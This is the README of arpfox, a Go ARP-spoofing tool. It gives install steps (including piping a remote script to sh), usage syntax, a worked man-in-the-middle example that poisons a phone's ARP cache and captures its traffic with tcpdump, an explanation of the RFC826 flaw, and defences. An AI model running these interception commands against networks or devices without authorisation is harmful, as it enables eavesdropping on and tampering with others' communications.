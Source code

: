 # arpfox

[![Build Status](https://travis-ci.org/malfunkt/arpfox.svg?branch=master)](https://travis-ci.org/malfunkt/arpfox)

`arpfox` is an [arpspoof](http://linux.die.net/man/8/arpspoof) clone written in
Go which creates and injects special [ARP
packets](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)
that can be used to poison
[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) cache tables.

A security researcher can run `arpfox` against any machine on the LAN to pose
as any other host, this is an [ancient
technique](http://insecure.org/sploits/arp.games.html) known as [ARP
spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) and is commonly used to
eavesdrop communications on a LAN.

The machine that receives traffic can record, censor, alter or selectively drop
network packets that pass through it.

## Get `arpfox`

You can install arpfox to `/usr/local/bin` with the following command (requires
admin privileges):

```
curl -sL 'https://raw.githubusercontent.com/malfunkt/arpfox/master/install.sh' | sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/arpfox/releases) and install it manually into
another location.

## Build it yourself

In order to build `arpfox` you'll need Go, a C compiler and libpcap's
development files:

```
# Fedora
sudo dnf install -y libpcap-devel

# Debian/Ubuntu
sudo apt-get install -y libpcap-dev

# OSX
brew install libpcap

# FreeBSD
sudo pkg install libpcap

# Windows
You need install Winpacp
```

After installing libpcap, use `go get` to build and install `arpfox`:

```
go get github.com/malfunkt/arpfox
arpfox -h
```

## Running `arpfox`

```
arpfox -i [interface] -t [target] [host]
```

### Interface (-i)

Interface name, could be `eth0`, `en0`, `wlan0`, etc.

### Target specification (-t)

`arpfox` takes targets in the same format as `nmap`. The following are all
valid target specifications:

* `10.0.0.1`
* `10.0.0.0/24`
* `10.0.0.*`
* `10.0.0.1-10`
* `10.0.0.1, 10.0.0.5-10, 192.168.1.*, 192.168.10.0/24`

### Host

The host parameter defines the host you want to pose as, for instance, if you
use the LAN router's IP address, the target will start sending packets to you
intead of to the legitimate router.

### Root privileges

Depending on your OS, you may require root privileges to run `arpfox`

```
arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
2016/09/05 20:06:12 wlan0: You don't have permission to capture on that device ((cannot open device) /dev/bpf: Permission denied)

sudo arpfox -i wlan0 -t 10.0.0.25 10.0.0.1
...
```

## A practical example

Alice is a security researcher, and she wants to intercept and record all
traffic between her own phone and the LAN router.

Her machine is already on the same LAN as the phone, and she knows the IP
addresses of both the phone and of the router.

```
Phone:  10.0.0.101
Router: 10.0.0.1
```

Alice will attempt to make her laptop pose as the router in order for the phone
to send all its traffic to the laptop.

If she succeeds, the phone will start sending traffic marked for `10.0.0.1` to
Alice's machine, which will just ignore the packets because these packets have
a different destination, in order to instruct the laptop to forward the packets
to the legitimate destination instrad of dropping them, Alice does something
like:

```
# OSX
sudo sysctl net.inet.ip.forwarding=1

# FreeBSD
sudo sysctl -w net.inet.ip.forwarding=1

# Linux
sudo sysctl -w net.ipv4.ip_forward=1
```

Besides forwarding, Alice also wants to see what's going on with unencrypted
traffic, so she instructs `tcpdump` to display packets coming from the phone:

```
tcpdump -i en0 -A -n "src host 10.0.0.101 and (dst port 80 or dst port 443)"
```

At this point Alice hasn't started `arpfox` yet and the phone's ARP table still
looks like this:

```
# 10.0.0.1's legitimate MAC address on the phone.
? (10.0.0.1) at 11:22:33:44:55:66 on wlan0 expires in 857 seconds [ethernet]
```

Now she's ready to use `arpfox`:

```
# arpfox -i [network interface] -t [target] [host]
arpfox -i en0 -t 10.0.0.101 10.0.0.1
```

`-i en0` tells `arpfox` to use the `en0` network interface and `-t 10.0.0.101
10.0.0.1` tells `arpfox` to send unsolicited ARP replies to the phone
(`10.0.0.101`) posing as the router (`10.0.0.1`).

After a few seconds, the phone's ARP table will get altered and the phone will
think Alice's machine is the router:

```
# 10.0.0.1's MAC address was changed on the phone.
? (10.0.0.1) at 11:22:de:ad:be:ef on wlan0 expires in 1193 seconds [ethernet]
```

Finally, she takes the phone and goes to `example.com`, `tcpdump` starts
showing traffic:

```
...
GET / HTTP/1.1
Host: example.org
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1 (KHTML, like Gecko) CriOS/52.0.2743.84 Mobile/13G36 Safari/601.1.46
Accept-Language: en-us
Cache-Control: max-age=0
Connection: keep-alive
...
```

## Why does this happen?

[ARP](https://en.wikipedia.org/wiki/Address_Resolution_Protocol) is the
protocol most computers use to translate a [MAC
address](https://en.wikipedia.org/wiki/MAC_address) into an [IP address
](https://en.wikipedia.org/wiki/IP_address). The original proposal is described
in [RFC826](https://tools.ietf.org/html/rfc826).

The part that is flawed is described in the "Packet Reception" section:

> Notice that the <protocol type, sender protocol address, sender
> hardware address> triplet is merged into the table before the
> opcode is looked at.  This is on the assumption that communcation
> is bidirectional; if A has some reason to talk to B, then B will
> probably have some reason to talk to A.  Notice also that if an
> entry already exists for the <protocol type, sender protocol
> address> pair, then the new hardware address supersedes the old
> one.  Related Issues gives some motivation for this.

The opcode they're talking about is what tells the receiver if the packet is a
request or a reply, except that nothing verifies that a reply is associated
with a request nor that a request was made in the first place.

It only takes an unsolicited ARP packet of type reply to make a machine change
that entry into its internal ARP table, this includes adding new addreses and
replacing old ones.

## How can I protect against this?

There are [some programs](https://en.wikipedia.org/wiki/ARP_spoofing#Defense)
that can help you against ARP spoofing. Sometimes programs like these may be
inconvenient because we usually roam over different networks all the time and
these programs require usto hack stuff before actually starting being
productive. Keeping an static ARP table is simply not practical enough for most
users.

One thing you can do, though, is assuming things like these could happen and
try to encrypt your communications, specially on untrusted networks where any
node, even the router, can be actively recording traffic without your consent.
While this doesn't prevent attackers from keeping records on your
communications, it does prevent them from knowing the actual contents of it.

You don't have to use a VPN to stay secure, you can build a proxy with SSH and
configure your programs to use it:

```
ssh -D 9999 user@myownserver.org
```

A more advanced example could be found
[here](https://www.digitalocean.com/community/tutorials/how-to-route-web-traffic-securely-without-a-vpn-using-a-socks-tunnel).

## A glimpse of our future

You know what is probably not going to help solving this problem in the coming
years? Millions of already deployed IoT devices that cannot update themselves.

![c4jt321](https://cloud.githubusercontent.com/assets/385670/19027614/6320583e-88f7-11e6-95c4-3bf785b6082c.png)
